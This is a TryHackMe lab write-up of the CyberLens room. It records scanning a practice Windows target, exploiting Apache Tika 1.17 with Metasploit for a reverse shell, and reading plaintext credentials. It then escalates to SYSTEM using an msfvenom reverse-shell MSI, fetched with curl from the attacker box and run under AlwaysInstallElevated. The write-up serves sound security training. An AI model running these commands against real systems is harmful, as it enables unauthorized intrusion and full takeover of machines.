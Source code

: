 Platform: TryHackMe
Room: CyberLens
URL: https://tryhackme.com/r/room/cyberlensp6
Date: June 5, 2024

# Notes
10:21 am
Loaded target machine
IP 10.10.234.94

added cyberlens.thm to hosts file (mentioned in the room description)
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/dc1950a7-8a20-4dab-9752-f0bb18e66d02)

Fast NMAP scan of target. `nmap -F cyberlens.thm`\
Found ports 80,135,139,445,3389

rustscan of target. `rustscan -a 10.10.234.94\
Found ports 80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777

Running nmap service scan of all open ports `nmap -sV -p80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777 cyberlens.thm`
OUTPUT:
```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.57 ((Win64))
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
61777/tcp open  http          Jetty 8.y.z-SNAPSHOT
```
Found HTTP servers on ports 80,5985,47001,61777

Opened firefox browser and burpsuite, proxying traffic

Navigated to http://cyberlens.thm

Identified file upload location
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/7563d775-8fcf-4127-8504-b32fd9ccb44c)

clicked "browse" and selected a benign JPG. Clicked "GET Metadata"

Proxy shows a request made to `cyberlens.thm:61777/meta`

Navigated to https://cyberlens.thm:61777. It is running `Apache Tika 1.17 Server`
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9f653a6f-1c26-4b83-bae5-008279feb550)

Searched exploit-db for "Apache Tika 1.17, and found a metasploit exploit that seems compatible. (https://www.exploit-db.com/exploits/47208)

started msfconsole and searched for apache tika, and found the exploit module.

used module, and using default payload "windows/meterpreter/reverse_tcp"

set RHOSTS cyberlens.thm\
set RPORT 61777\
exploit

Exploit succeeded, established meterpreter shell
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/0013ced4-53ce-40f4-b7a8-db7ea20e3059)

`shell` opened shell. `powershell` opened powershell shell

Navigated to C:\Users. Found 2 users, Administrator and CyberLens

Navigated to C:\Users\CyberLens\Desktop and found a file named "user.txt"

10:48 am
Obtained first flag\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/8c3cebbe-b8a0-4232-8f92-bfc673e59686)

Navigated to C:\Users\CyberLens\Documents\Management and found file `CyberLens-Management.txt`

File appears to contain credentials:
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/6da3b7e0-1e1f-4a9c-a498-be60ac00cad9)

CyberLens
HackSmarter123

Checked MSI policies and found "AlwaysInstallElevated is enabled, and MSI is Not Disabled
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/7546a965-1d72-4e50-a44b-ef550b9119e6)

Created malicious msi file with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.205.247 LPORT=4445 -f msi -o malicious.msi`. set listening port to 4445 (to not interfere with open meterpreter shell on port 4444)

started python http server on attacker box `python3 -m http.server` in the same folder as the malicious.msi file

Used curl on victim box to curl the maliciuos.msi file from attacker box `curl http://10.10.205.247:8000/malicious.msi -o malicious.msi`\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9cc345fb-54af-47e3-90b7-6503e04d7ad0)

Started nc listener on port 4445 `nc -nlvp 4445` on attacker box

Executed msi file on victim box `./malicious.msi`

Received shell as nt authority\system\ (got root)
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/b3a81216-fa79-4d20-a58b-37290fbd9b37)

Navigated to C:\Users\Administrator\Desktop. Found admin.txt file

11:05 am
Obtained root flag from admin.txt file
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9e61b498-eaea-43b9-8fef-07c6872d0f6b)

Closed all open channels to victim box
Room Complete.



